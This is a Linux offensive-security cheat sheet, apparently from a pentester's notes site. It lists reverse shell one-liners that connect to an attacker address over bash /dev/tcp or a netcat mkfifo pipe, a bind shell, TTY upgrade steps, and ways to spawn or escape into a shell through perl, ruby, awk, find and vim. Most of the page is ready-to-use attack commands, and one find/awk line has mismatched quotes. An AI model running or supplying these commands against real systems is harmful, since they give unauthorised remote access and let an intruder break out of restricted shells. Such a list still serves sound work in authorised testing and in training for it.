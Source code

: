 # Linux

## Reverse Shell Generator

{% embed url="https://www.revshells.com/" %}

## Reverse shell

| Command                                                                              | Description                                                    |
| ------------------------------------------------------------------------------------ | -------------------------------------------------------------- |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                | Send a reverse shell from the remote server                    |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\|/bin/sh -i 2>&1\\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\|/bin/bash -i 2>&1\\|nc -lvp 1234 >/tmp/f`      | Start a bind shell on the remote server                        |

## TTY



{% tabs %}
{% tab title="Python 3" %}
`python3 -c 'import pty;pty.spawn("/bin/bash")'`
{% endtab %}

{% tab title="Python 2" %}
`python -c 'import pty;pty.spawn("/bin/bash")'`
{% endtab %}
{% endtabs %}

Which uses Python to spawn a better-featured bash shell. At this point, our shell will look a bit prettier, but we still won’t be able to use tab autocomplete or the arrow keys.

`export TERM=xterm`

This will give us access to term commands such as clear.

Finally (and most importantly) we will background the shell using

`Ctrl + Z`

Back in our own terminal we use

`stty raw -echo; fg`

This does two things: first, it turns off our own terminal echo which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes

`stty rows 38 columns 116`

## Interactive Shell



| Command                                                                 | Description                                                                                        |
| ----------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------- |
| `/bin/sh -i`                                                            | Spawns an interactive shell on a linux-based system                                                |
| `perl —e 'exec "/bin/sh";'`                                             | Uses `perl` to spawn an interactive shell on a linux-based system                                  |
| `ruby: exec "/bin/sh"`                                                  | Uses `ruby` to spawn an interactive shell on a linux-based system                                  |
| `Lua: os.execute('/bin/sh')`                                            | Uses `Lua` to spawn an interactive shell on a linux-based system                                   |
| `awk 'BEGIN {system("/bin/sh")}'`                                       | Uses `awk` command to spawn an interactive shell on a linux-based system                           |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;` | Uses `find` command to spawn an interactive shell on a linux-based system                          |
| `find . -exec /bin/sh \; -quit`                                         | An alternative way to use the `find` command to spawn an interactive shell on a linux-based system |
| `vim -c ':!/bin/sh'`                                                    | Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape “jail-shells”      |
